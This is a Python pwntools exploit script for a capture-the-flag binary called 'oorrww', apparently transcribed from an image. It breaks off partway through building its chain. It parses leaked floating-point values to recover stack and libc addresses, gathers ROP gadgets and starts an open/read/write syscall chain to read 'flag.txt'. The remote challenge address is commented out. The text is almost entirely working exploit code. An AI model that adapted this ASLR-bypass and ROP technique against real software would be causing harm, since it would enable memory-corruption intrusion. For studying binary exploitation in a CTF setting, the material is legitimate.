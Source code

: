 ```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import struct

#context.terminal = 'kitty'
context.terminal = ["tmux", "splitw", "-h"]
logger = logging.getLogger(__name__)

exe = context.binary = ELF(args.EXE or './oorrww_patched')
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")

io = process([exe.path])
#io = remote('193.148.168.30', 7666)
#gdb.attach(io, gdbscript=gdbscript)

fleak = io.recvline().strip().decode().split()
buffer_leak = float.hex(float(fleak[5]))
buffer_leak = int(buffer_leak[5:17], 16)

scanf_leak = float.hex(float(fleak[6][:-1]))
scanf_leak = int(scanf_leak[5:17], 16)

libc.address = scanf_leak - libc.symbols['__isoc99_scanf']
print("LIBC @ {}".format(hex(libc.address)))

rop = ROP(libc)
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
pop_rsi = (rop.find_gadget(['pop rsi', 'ret']))[0]
pop_rax = (rop.find_gadget(['pop rax', 'ret']))[0]
pop_rdx = libc.address + 0x11f2e7
syscall = (rop.find_gadget(['syscall', 'ret']))[0]
leave_ret = (rop.find_gadget(['leave', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

gdbscript="""
b *{}
b *{}
""".format(leave_ret, syscall)
#gdb.attach(io, gdbscript=gdbscript)

def pack_input(data):
    val = p64(data).hex()
    return (struct.unpack('d', bytes.fromhex(val))[0])

def create_string(string):
    f = string.encode().hex()
    ba = bytearray.fromhex(f)
    ba.reverse()
    s = ''.join(format(x, "02x") for x in ba)
    return s

def send_address(addr):
    io.sendline("{}".format(pack_input(addr)))

print("Addr: scanf({}) buffer({})".format(hex(scanf_leak), hex(buffer_leak)))
def overflow(r):
    send_address(0x007478742e67616c66)
    send_address(0x00)

    # Open
    send_address(pop_rdi)
```